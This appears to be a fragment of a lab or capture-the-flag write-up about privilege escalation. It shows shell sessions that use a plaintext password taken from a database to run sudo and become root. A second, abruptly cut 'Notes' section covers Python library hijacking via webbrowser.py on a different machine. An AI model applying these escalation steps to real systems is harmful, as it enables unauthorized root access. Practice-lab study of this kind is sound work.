 Well, we found the user `saket` which we has seen it in `users` table. Try to switch to it with password `Saket@#$1337` and su to root:

```shell
saket@ubuntu:/$ id
id
uid=1000(saket) gid=1000(saket) groups=1000(saket),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare)
saket@ubuntu:/$ sudo -l
sudo -l
[sudo] password for saket: Saket@#$1337

Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
saket@ubuntu:/$ sudo su
sudo su
root@ubuntu:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/# ls /root
ls /root
app.apk  Documents  Music     Public  Templates
Desktop  Downloads  Pictures  snap    Videos
```

## Notes


ge the `/usr/lib/python3.9/webbrowser.py` file to achive the root.

Modify the file `/usr/lib/python3.9/webbrowser.py` as follows, add some payload:

![image-20231113175900550](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311131759811.png)

And then execute the heist.py file:

```shell
icex64@LupinOne:~$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
arsene@LupinOne:/home/icex64$ id
uid=1000(arsene) gid=1000(arsene) groups=1000(arsene),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
arsene@LupinOne:/home/icex64$ cd /home/arsene/
arsene@LupinOne:~$ ls
heist.py  note.txt
arsene@LupinOne:~$ cat note.txt
Hi my friend Icex64,

Can you please help check if my code is secure to run, I need to use for my next heist.

I dont want to anyone else get inside it, because it can compromise my account and find my secret file.

Only you have access to my program, because I know that your account is secure.

See you on the other side.

Arsene Lupin.
```
